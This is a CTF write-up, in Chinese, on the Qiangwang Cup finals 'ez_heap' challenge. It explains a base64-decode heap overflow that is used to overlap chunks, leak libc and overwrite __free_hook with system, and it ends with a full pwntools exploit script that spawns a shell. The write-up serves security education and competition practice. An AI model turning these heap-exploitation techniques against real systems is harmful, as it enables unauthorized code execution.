# 强网杯决赛 ez_heap详解-先知社区

> **来源**: https://xz.aliyun.com/news/16147  
> **文章ID**: 16147

---

# 强网杯决赛 ez\_heap详解

## 详细流程

  
查看函数功能发现有两种申请方式



  
Decode的申请是除以四再乘三，所以未整除的时候，最多可以多控制三个字节

  
经过本地调试看到，这里就是对输入的进行base64解密

  
所以这里可以做到溢出  


  
base64解码的时候有个补全机制，经测试这个大小正好可以修改成0x80，这样就可以重叠chunk

```
encode('a'*0x20)
decode('a'*0x40)
decode('a'*0x40)
dele_encode(0)

pl = b"a"*72 + b"A"
decode(pl)

```

所以只需要设置两个0x40大小的chunk，后面去合并即可

  
可以看到确实保留指针了  
然后直接把一个大的chunk链入unsortbin后申请就保留fd指针了，泄露libc即可

```
encode("C"*0x360)
encode("C"*0x20)
dele_encode(0)
decode("YWFhYWFhYWFh")

show_de(3)

libc.address = u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00")) - 0x1ecf61
leak("libc.address ",libc.address)

```

这里用的encode  
  
后面因为我们进行了chunk重叠，我们只需要链入的0x80包含0x40的即可

  
之后重新申请出来0x80的就可以修改了

```
pl = b"A"*0x38 + p64(0x41) + p64(libc.sym['__free_hook']) + p64(0)
pl = base64.b64encode(pl.ljust(0x70,b"A"))
decode(pl)

```

  
然后写binsh和改free\_hook即可

```
decode(base64.b64encode((b'/bin/sh\x00').ljust(0x30,b"A")))
decode(base64.b64encode(p64(libc.sym['system']).ljust(0x30,b"A")))
dele_decode(1)

```



## exp

```
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'


p=process('./pwn')
elf = ELF('./pwn')
libc=ELF('./libc.so.6')

encode_idx=1
decode_idx=2
dele_encode_idx=3
dele_decode_idx=4
show_en_idx=5
show_de_idx=6

def duan():
    gdb.attach(p)
    pause()

def choice(cho):
    sla('Enter your choice: \n',cho)

def encode(content):
    choice(encode_idx)
    sla('Enter the text to encode: \n',content)

def decode(content):
    choice(decode_idx)
    sla('Enter the text to decode: \n',content)

def dele_encode(idx):
    choice(dele_encode_idx)
    sla("idx: \n",idx)

def dele_decode(idx):
    choice(dele_decode_idx)
    sla("idx: \n",idx)

def show_en(idx):
    choice(show_en_idx)
    sla("idx: \n",idx)

def show_de(idx):
    choice(show_de_idx)
    sla("idx: \n",idx)

encode('a'*0x20)
decode('a'*0x40)
decode('a'*0x40)
dele_encode(0)

pl = b"aa"*(0x38//2+8) + b"="
decode(pl)
encode("C"*0x360)
encode("C"*0x20)
dele_encode(0)
decode("YWFhYWFhYWFh")

show_de(3)

libc.address = u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00")) - 0x1ecf61
leak("libc.address ",libc.address)


dele_decode(0)
dele_encode(1)
dele_decode(1)
#duan()

pl = b"A"*0x38 + p64(0x41) + p64(libc.sym['__free_hook']) + p64(0)
pl = base64.b64encode(pl.ljust(0x70,b"A"))
decode(pl)


decode(base64.b64encode((b'/bin/sh\x00').ljust(0x30,b"A")))
decode(base64.b64encode(p64(libc.sym['system']).ljust(0x30,b"A")))

dele_decode(1)

itr()

```
